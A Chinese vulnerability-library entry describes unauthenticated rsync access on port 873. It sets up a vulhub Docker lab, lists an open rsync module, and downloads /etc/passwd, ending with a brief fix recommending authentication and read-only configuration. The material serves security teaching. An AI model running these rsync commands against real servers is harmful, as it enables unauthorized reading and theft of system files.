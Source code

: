 ```yaml
---
title: 'rsync 未授权访问漏洞'
date: Sun, 27 Sep 2020 12:54:50 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 前言

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

#### 环境搭建

```
cd vulhub/rsync/common 
``````
docker-compose build && docker-compose build 
```环境启动后，我们用rsync命令访问之： 有一个src模块，我们再列出这个模块下的文件：```
rsync rsync://your-ip:873/src/ 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/20200704112447326.png) 这是一个Linux根目录，我们可以下载任意文件：```
rsync -av rsync://your-ip:873/src/etc/passwd ./ 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/20200704112457861.png)

#### 修复建议

配置只读配置认证用户名或者密码